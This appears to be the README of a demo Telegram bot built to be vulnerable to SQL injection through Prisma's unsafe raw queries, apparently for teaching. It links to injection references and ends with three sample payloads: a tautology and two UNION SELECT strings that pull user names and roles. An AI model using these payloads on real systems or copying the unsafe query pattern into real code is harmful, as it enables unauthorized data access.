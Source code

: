 # Sample Telegram bot to showcase SQL Injection

How to enable SQL Injection:

https://www.prisma.io/docs/concepts/components/prisma-client/raw-database-access#queryrawunsafe

https://www.prisma.io/docs/concepts/components/prisma-client/raw-database-access#%EF%B8%8F-string-concatenation

## SQL Injection resources

https://brightsec.com/blog/sql-injection-attack/

https://www.linode.com/docs/guides/sql-injection-attack/

https://owasp.org/www-community/attacks/SQL_Injection

## Sample injection

`sample' OR '5'='5`

`' AND role = 'ADMIN' UNION SELECT name from user WHERE phone_number='456`

`' AND role = 'ADMIN' UNION SELECT role from user WHERE phone_number='456`

